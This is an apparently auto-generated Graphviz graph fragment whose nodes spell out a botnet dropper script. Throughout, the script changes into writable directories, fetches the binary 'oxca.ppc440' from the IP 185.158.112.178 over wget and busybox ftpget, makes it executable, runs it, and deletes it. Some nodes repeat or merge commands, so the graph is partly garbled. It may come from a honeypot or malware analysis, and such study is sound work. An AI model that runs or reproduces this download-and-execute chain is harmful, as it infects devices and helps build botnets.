842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://185.158.112.178/oxca.ppc440 "];
826 -> 828 [label=";,"];
828 [label="chmod +x oxca.ppc440 "];
828 -> 864 [label=";,"];
864 [label="./oxca.ppc440 "];
864 -> 848 [label=";,"];
848 [label="rm -rf oxca.ppc440 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc440 oxca.ppc440 "];
844 -> 846 [label=";,"];
846 [label="chmod +x oxca.ppc440 ./oxca.ppc440 "];
846 -> 848 [label=";,"];
848 [label="rm -rf oxca.ppc440 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://185.158.112.178/oxca.ppc440 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x oxca.ppc440 "];
862 -> 864 [label=";,"];
864 [label="./oxca.ppc440 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf oxca.ppc440 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc440 oxca.ppc440 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x oxca.ppc440 ./oxca.ppc440 "];
880 -> 881 [label=";,"];
}
